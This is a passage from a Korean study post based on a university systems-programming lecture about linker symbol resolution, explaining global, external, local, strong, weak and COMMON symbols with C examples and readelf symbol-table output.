








본 포스트는 서울대학교 컴퓨터공학부 시스템 프로그래밍(System Programming, M1522.000800, Fall 2026) 강의 자료 중 11강 — The Runtime Environment: Linking and Loading (총 38장)를 바탕으로, 강의를 처음 듣는 독자도 논리적 흐름을 따라갈 수 있도록 재구성한 것입니다. 이 강의는 런타임 환경(The Runtime Environment) 단원의 Part II이며, 단원 전체는 Part I Life Cycle of a Program, Overview → Part II Linking and Loading → Part III Libraries로 이어집니다. 원본 슬라이드는 영문으로 작성되어 있고, 본문의 대섹션 구분은 강의 첫머리의 개요 슬라이드(Symbol Resolution → Symbol Relocation → Summary)를 그대로 따랐습니다. 슬라이드가 “교과서(the textbook)”라고 부르는 책은 이 강의의 교재인 Bryant & O’Hallaron, Computer Systems: A Programmer’s Perspective (3rd ed., 2015)입니다. 슬라이드의 명령행에 섞여 있는 긴 대시(–)는 그대로 실행할 수 있도록 하이픈(-)으로 바꾸어 옮겼습니다.
한 줄 요약 (TL;DR)
“링커는 기계어를 한 줄도 읽지 않습니다 — 이름을 정의에 묶고, 비워 둔 바이트를 공식대로 채울 뿐입니다.”
C 컴파일러는 소스 파일을 하나씩 따로 번역하므로, 다른 파일에 정의된 함수·변수의 주소는 물론 자기 파일의 코드와 데이터가 최종적으로 어디에 놓일지도 모릅니다. 그래서 주소가 들어갈 자리를
00 00 00 00으로 비워 두고 “여기를 이런 식으로 채워 달라”는 메모, 곧 재배치 항목(relocation entry)을 남깁니다. 링커의 첫 번째 일인 심볼 해석(symbol resolution)은 모든 심볼 사용을 정확히 하나의 정의에 대응시키는 일로, 전역·외부·로컬 심볼과 강한·약한 심볼, 그리고 COMMON 섹션에 관한 규칙이 여기서 작동합니다. 강의는 이 규칙의 틈 — 초기화하지 않은 같은 이름의 전역 변수가 조용히 하나로 합쳐지는 것 — 을 이용해 외부 라이브러리가 비밀번호를 빼내는 사례를 보이고, GCC 10이-fno-common을 기본값으로 바꾼 이유와 그것으로도 막지 못하는 경우까지 짚습니다. 두 번째 일인 심볼 재배치(symbol relocation)는 각자 주소 0에서 시작하던 목적 파일의 섹션들을 하나의 주소 공간으로 합친 뒤, 재배치 항목의 네 값(offset, type, symbol, addend)만 보고 비워 둔 바이트를 채우는 일입니다. 절대 주소 재배치(R_X86_64_64/32[S])는 대상의 주소를, PC-상대 재배치(R_X86_64_PC32/PLT32)는 대상까지의 거리를 적는데, 인텔 CPU의 PC는 이미 다음 명령을 가리키고 있으므로 그 거리에서 4를 빼 둔 것이 addend-4의 정체입니다. 마지막으로main.o와swap.o의 재배치 8개를 손으로 계산해 실제 실행 파일의 바이트와 대조합니다.
1. 심볼 해석 (Symbol Resolution)
C 프로그램을 여러 파일로 나누어 작성하면, 컴파일러는 한 번에 파일 하나씩만 번역합니다. main.c를 번역하는 동안에는 swap이라는 함수가 어디에 있는지 알 수 없고, swap.c를 번역하는 동안에는 buf라는 배열이 어디에 있는지 알 수 없습니다. 그렇게 만들어진 재배치 가능 목적 파일(relocatable object file, .o)들은 서로를 가리키는 미해결 참조를 품은 채 남아 있고, 이들을 엮어 하나의 실행 파일을 만드는 것이 링커(linker)의 일입니다. 강의는 그 일을 두 단계로 나눕니다.
- 심볼 해석(symbol resolution) — 코드 곳곳의 심볼 사용(use)이 각각 어느 정의(definition)를 가리키는지 확정합니다. 이 장의 주제입니다.
- 심볼 재배치(symbol relocation) — 목적 파일들을 하나로 합치고, 컴파일 시점에는 알 수 없었던 주소를 채워 넣습니다. 2장의 주제입니다.
여기서 심볼(symbol)은 링커가 다루는 이름, 즉 함수와 전역 변수의 이름입니다. 해석을 하려면 먼저 심볼을 몇 가지 기준으로 분류해야 합니다.
1.1 링커 심볼 (Linker Symbols)
어떤 모듈 \(m\)(목적 파일 하나)의 입장에서 링커 심볼은 세 종류로 나뉩니다.
| 종류 | 정의 | C에서의 예 |
|---|---|---|
| 전역 심볼(global symbol) | 모듈 \(m\)이 정의하고, 다른 모듈이 참조할 수 있는 심볼 | static이 붙지 않은 함수와 전역 변수 |
| 외부 심볼(external symbol) | 모듈 \(m\)이 참조하지만 다른 모듈이 정의한 전역 심볼 | extern으로 표시한 선언 |
| 로컬 심볼(local symbol) | 모듈 \(m\) 안에서만 정의되고 참조되는 심볼 | static을 붙여 정의한 함수와 변수 |
- 외부 심볼의 정의를 눈여겨볼 만합니다 — 외부 심볼은 어떤 다른 모듈의 전역 심볼입니다. 같은 심볼이 정의한 쪽에서는 전역 심볼로, 가져다 쓰는 쪽에서는 외부 심볼로 보이는 것입니다.
- 함수는 선언에
extern을 붙이지 않아도 기본적으로 다른 파일과 연결될 수 있는 이름이므로, 정의 없이 호출만 하면 곧 외부 심볼이 됩니다. 다음 절main.c의swap과printf가 그 예입니다.
슬라이드가 “Remember”를 붙여 강조하는 대목입니다. 이름이 비슷해 헷갈리기 쉽지만, 둘은 서로 다른 층위의 개념입니다.
- 로컬 링커 심볼:
static전역 변수나static함수처럼 모듈 밖에서 보이지 않을 뿐, 여전히 링커가.text·.data·.bss에 자리를 잡아 주는 대상입니다. 심볼 테이블에LOCAL로 기록됩니다. - 지역 변수(local program variable): 함수 안에서
static없이 선언한 변수입니다. 실행 중에 스택에서 생겼다 사라지므로 링커가 관여할 일이 없고, 따라서 심볼 테이블에 아예 나타나지 않습니다.
함수 안에서 static으로 선언한 변수는 스택이 아니라 .data나 .bss에 놓이므로, 지역 변수처럼 보여도 로컬 링커 심볼이 됩니다.
1.2 심볼 해석하기 (Resolving Symbols)
강의가 이 장과 다음 장 내내 쓰는 예제는 두 파일짜리 프로그램입니다. main.c는 원소 두 개짜리 배열 buf를 정의하고 swap()을 호출하며, swap.c는 포인터 두 개를 통해 buf의 두 원소를 맞바꿉니다.
main.c
#include <stdio.h>
int buf[2] = {1, 2};
int main(void)
{
printf(…);
swap();
printf(…)
return 0;
}swap.c
extern int buf[];
int *bufp0 = &buf[0];
static int *bufp1;
void swap()
{
int temp;
bufp1 = &buf[1];
temp = *bufp0;
*bufp0 = *bufp1;
*bufp1 = temp;
}슬라이드의 질문은 단순합니다 — 이 이름들은 각각 전역인가, 로컬인가, 외부인가?

main.c, 오른쪽 상자가 swap.c입니다. 아래쪽 가운데의 빨간색 “Global symbols”에서 뻗은 화살표 네 개는 각 파일이 직접 정의하면서 다른 파일에도 공개하는 이름을 가리킵니다 — main.c의 배열 buf와 함수 main, swap.c의 포인터 bufp0와 함수 swap입니다. 위쪽의 보라색 “External symbols”에서 뻗은 화살표 세 개는 쓰기만 하고 정의는 남에게 맡긴 이름을 가리킵니다 — main.c가 호출하는 swap, 그리고 swap.c의 extern int buf 선언과 bufp0의 초기값 안에 나오는 buf입니다. 같은 이름 swap과 buf가 한 파일에서는 빨간색(정의)으로, 다른 파일에서는 보라색(참조)으로 칠해져 있다는 점이 핵심입니다 — 외부 심볼이란 다른 모듈의 전역 심볼을 이쪽에서 바라본 모습입니다. 오른쪽의 초록색 “Local symbol”은 static이 붙은 bufp1 하나를 가리키고, 노란색 “???”는 swap 안의 지역 변수 temp를 가리키며 그것이 무엇인지를 질문으로 남겨 둡니다.그림의 분류를 표로 옮기면 다음과 같습니다.
| 파일 | 전역 심볼 | 외부 심볼 | 로컬 심볼 | 심볼이 아님 |
|---|---|---|---|---|
main.c |
buf, main |
swap, printf |
— | — |
swap.c |
bufp0, swap |
buf |
bufp1 |
temp |
printf는 그림에 표시되어 있지 않지만, C 표준 라이브러리에 정의된 함수를 호출만 하므로swap과 똑같이 외부 심볼입니다. 아래readelf출력에서 그대로 드러납니다.- 노란색 “???”의 답은 “어느 쪽도 아니다”입니다.
temp는 스택에 사는 지역 변수이므로 링커 심볼이 아닙니다(1.1절의 경고).
심볼 테이블로 확인하기
각 파일을 따로 컴파일한 뒤 readelf -s로 심볼 테이블(symbol table)을 출력하면, 위 분류가 그대로 기록되어 있습니다. 슬라이드는 앞 번호의 보조 항목(빈 항목, 파일 이름, 섹션 심볼 등)과 일부 열을 생략했습니다.
$ gcc -c main.c
$ readelf -s main.o
…
Num: Size Type Bind Ndx Name
4: 8 OBJECT GLOBAL 3 buf
5: 100 FUNC GLOBAL 1 main
6: 0 NOTYPE GLOBAL UND printf
7: 0 NOTYPE GLOBAL UND swap$ gcc -c swap.c
$ readelf -s swap.o
…
Num: Size Type Bind Ndx Name
4: 8 OBJECT LOCAL 4 bufp1
5: 8 OBJECT GLOBAL 5 bufp0
6: 0 NOTYPE GLOBAL UND buf
7: 63 FUNC GLOBAL 1 swap| 열 | 의미 | 이 출력에서 읽을 것 |
|---|---|---|
| Size | 심볼이 차지하는 바이트 수 | buf는 int 두 개라 8, 64비트 포인터 bufp0·bufp1도 8. 함수는 기계어의 길이(main 100, swap 63) |
| Type | OBJECT(데이터) · FUNC(함수) · NOTYPE(알 수 없음) |
이 파일에 정의가 없는 printf·swap·buf는 무엇인지조차 모르므로 NOTYPE |
| Bind | 바인딩 — LOCAL · GLOBAL · WEAK |
static인 bufp1만 LOCAL |
| Ndx | 심볼이 정의된 섹션의 번호. 정의가 없으면 UND(undefined) |
외부 심볼은 모두 UND |
이 출력에서 짚을 점은 세 가지입니다.
- “외부”라는 바인딩은 따로 없습니다. ELF 심볼 테이블이 아는 바인딩은
LOCAL·GLOBAL·WEAK뿐이고, 외부 심볼은 “GLOBAL이면서 섹션이UND인 항목”으로 표현됩니다. 링커의 해석 작업이란 결국 모든UND항목을 다른 파일의GLOBAL정의와 짝지어 주는 일입니다.main.o의swap(7번)은swap.o의swap(7번)과,swap.o의buf(6번)는main.o의buf(4번)와 짝지어집니다. temp는 어느 쪽 표에도 없습니다. “???”에 대한 확인입니다.swap.o의bufp1(Ndx 4)과bufp0(Ndx 5)은 서로 다른 섹션에 있습니다. 2장에서 보겠지만 각각.bss와.data.rel입니다.
1.3 심볼의 강도 (Symbol Strength)
해석 규칙을 세우려면 분류가 하나 더 필요합니다. 같은 이름의 정의가 둘 이상일 때 어느 쪽이 이기는가를 정하는 기준, 심볼의 강도(strength)입니다.
- 심볼은 강한(strong) 심볼이거나 약한(weak) 심볼입니다.
- 기본값은 모두 강한 심볼입니다. 함수(프로시저), 초기화한 전역 변수, 그리고 초기화하지 않은 전역 변수까지 강합니다. 슬라이드는 여기에 “즉, 교과서의 설명은 부정확하다”는 단서를 달아 둡니다.
- 약한 심볼은 명시적으로 요청할 때만 만들어집니다.
강의는 가능한 조합을 한 파일에 모아 확인합니다. #pragma weak 이름은 그 이름을 약한 심볼로 만들어 달라는 GCC 지시문입니다.
symbols.c
int global_initialized = 7;
int global_zero_initialized = 0;
int global_not_initialized;
static int global_static_initialized = 77;
static int global_static_not_initialized;
extern int extern_variable;
#pragma weak weak_global_initialized
int weak_global_initialized = 5;
#pragma weak weak_local_initialized
static int weak_local_initialized = 5;
#pragma weak weak_function
int weak_function(int a, int b)
{ return a + b; }
int regular_function(int a, int b)
{ return a + b; }
int extern_function(int a, int b);$ gcc -c symbols.c
$ readelf -s symbols.o
Symbol table '.symtab' contains 12 entries:
Num: Value Size Type Bind Vis Ndx Name
0: 0000000000000000 0 NOTYPE LOCAL DEFAULT UND
1: 0000000000000000 0 FILE LOCAL DEFAULT ABS symbols.c
2: 0000000000000000 0 SECTION LOCAL DEFAULT 1 .text
3: 0000000000000004 4 OBJECT LOCAL DEFAULT 2 global_static_in[...]
4: 0000000000000008 4 OBJECT LOCAL DEFAULT 3 global_static_no[...]
5: 000000000000000c 4 OBJECT LOCAL DEFAULT 2 weak_local_initi[...]
6: 0000000000000000 4 OBJECT GLOBAL DEFAULT 2 global_initialized
7: 0000000000000000 4 OBJECT GLOBAL DEFAULT 3 global_zero_init[...]
8: 0000000000000004 4 OBJECT GLOBAL DEFAULT 3 global_not_initi[...]
9: 0000000000000008 4 OBJECT WEAK DEFAULT 2 weak_global_init[...]
10: 0000000000000000 20 FUNC WEAK DEFAULT 1 weak_function
11: 0000000000000014 20 FUNC GLOBAL DEFAULT 1 regular_function이름 끝의 [...]는 readelf가 긴 이름을 잘라 표시한 것입니다(-W 옵션을 주면 전체가 보입니다). 0이 아닌 값으로 초기화된 변수는 모두 Ndx 2에, 0이거나 초기화하지 않은 변수는 모두 Ndx 3에 모여 있으므로 2번이 .data, 3번이 .bss임을 알 수 있습니다. 선언 하나하나가 어떻게 기록되었는지 정리하면 다음과 같습니다.
| 선언 | Bind | 섹션 (Ndx) | 판정 |
|---|---|---|---|
int global_initialized = 7; |
GLOBAL |
.data (2) |
강한 심볼 |
int global_zero_initialized = 0; |
GLOBAL |
.bss (3) |
강한 심볼 — 0으로 초기화하면 .bss |
int global_not_initialized; |
GLOBAL |
.bss (3) |
강한 심볼 — 교과서와 다른 지점 |
static int global_static_initialized = 77; |
LOCAL |
.data (2) |
로컬 심볼 |
static int global_static_not_initialized; |
LOCAL |
.bss (3) |
로컬 심볼 |
extern int extern_variable; |
— | — | 심볼 테이블에 없음 |
#pragma weak + int weak_global_initialized = 5; |
WEAK |
.data (2) |
약한 심볼 |
#pragma weak + static int weak_local_initialized = 5; |
LOCAL |
.data (2) |
약한 심볼이 되지 않음 |
#pragma weak + int weak_function(…) |
WEAK |
.text (1) |
약한 심볼 |
int regular_function(…) |
GLOBAL |
.text (1) |
강한 심볼 |
int extern_function(int a, int b); |
— | — | 심볼 테이블에 없음 |
- 초기화하지 않은 전역 변수도
GLOBAL입니다.global_not_initialized는.bss에 놓인 평범한 강한 심볼이며, 이것이 “모든 심볼은 기본적으로 강하다”의 증거입니다. #pragma weak는 전역 심볼에만 효과가 있습니다.weak_local_initialized는 지시문에도 불구하고LOCAL로 남습니다(슬라이드에서 빨간색으로 강조). 약한 심볼은 “같은 이름의 강한 정의가 나타나면 양보한다”는 뜻인데, 로컬 심볼은 애초에 다른 모듈과 이름을 겨루지 않으므로 양보할 일이 없습니다.- 선언만 하고 쓰지 않은 외부 이름은 기록되지 않습니다.
extern_variable과extern_function이 표에 없는 이유입니다. 1.2절에서printf·swap·buf가UND로 나타났던 것은 그 파일이 실제로 참조했기 때문입니다. LOCAL항목이 항상 앞 번호를 차지합니다. ELF 심볼 테이블은 로컬 심볼을 전역·약한 심볼보다 먼저 두도록 정해져 있기 때문입니다. 0–2번은 소스의 선언이 아니라 빈 항목, 파일 이름,.text섹션을 가리키는 보조 심볼입니다.- 목적 파일에서
Value는 섹션 안에서의 오프셋입니다..data(Ndx 2)에는global_initialized(0x0) →global_static_initialized(0x4) →weak_global_initialized(0x8) →weak_local_initialized(0xc)가 소스 순서대로 4바이트 간격으로 늘어서 있습니다.
교과서와 무엇이 다른가
교재 CS:APP 7.6절은 “함수와 초기화된 전역 변수는 강한 심볼, 초기화되지 않은 전역 변수는 약한 심볼”이라고 설명하고, 그 위에 해석 규칙 세 개를 세웁니다. 강의가 이 설명을 부정확하다고 보는 이유는 위 출력에 이미 들어 있습니다.
- 교과서가 “약한 심볼”이라고 부른 것의 실체는 다음 절의 COMMON 심볼입니다. ELF 심볼 테이블에서 COMMON 심볼의 바인딩은
WEAK가 아니라GLOBAL입니다. - 게다가 GCC 10부터는 초기화하지 않은 전역 변수가 COMMON조차 아닌,
.bss에 놓이는 평범한 강한 심볼이 됩니다(global_not_initialized). - 그래서 강의는 “약한 심볼”이라는 말을
WEAK바인딩을 가진 심볼 —#pragma weak같은 명시적 요청으로만 생기는 것 — 에만 쓰고, 교과서가 약한 심볼이라 부르던 자리에는 COMMON을 놓습니다. 1.5절에서 이 어휘로 규칙을 다시 씁니다.
1.4 심볼의 섹션 배정 (Assignment of Symbols to Sections)
강도와 함께 심볼이 어느 섹션에 놓이는가도 정해져 있습니다. 1.3절의 관찰을 표 하나로 정리한 것이 다음 슬라이드입니다.
| 종류 | COMMON 섹션 사용 | 섹션 | 비고 |
|---|---|---|---|
| 함수 | – | .text |
|
| 전역 변수 | 아니오 (기본값, -fno-common) |
.data |
값 \(\neq 0\) |
.bss |
값 \(= 0\) | ||
예 (-fcommon, GCC 10 미만) |
COMMON | 초기화하지 않은 전역 변수 (재배치 가능 목적 파일에서만) | |
.data 또는 .bss |
실행 목적 파일에서는 값에 따라 (위와 같음) | ||
* (종류 무관) |
외부(external) | UNDEFINED |
- 슬라이드는 COMMON을 쓰는 두 행을 회색으로 흐리게 처리해 두었습니다. 이제는 기본 동작이 아니라는 뜻입니다.
- 표 아래에는 로컬 심볼에 관한 두 줄 — “재배치 가능 목적 파일에만 나타난다”, “실행 목적 파일과 공유 목적 파일에서는 제거된다” — 이 적혀 있는데, 슬라이드는 이 두 줄을 취소선으로 지워 두었습니다. 1.6절의 실행 파일 심볼 테이블이 그 이유를 보여 줍니다. 링크가 끝난 실행 파일에도
LOCAL심볼i와bar가 그대로 남아 있습니다. - COMMON — 최근 컴파일러는 쓰지 않지만 하위 호환성 때문에 중요합니다.
- 재배치 가능 목적 파일 안의 초기화하지 않은 전역 심볼을 담습니다.
- 최종 연결이 아직 정해지지 않았다(final linkage not known yet)는 뜻입니다.
COMMON이 “아직 모른다”는 것의 의미
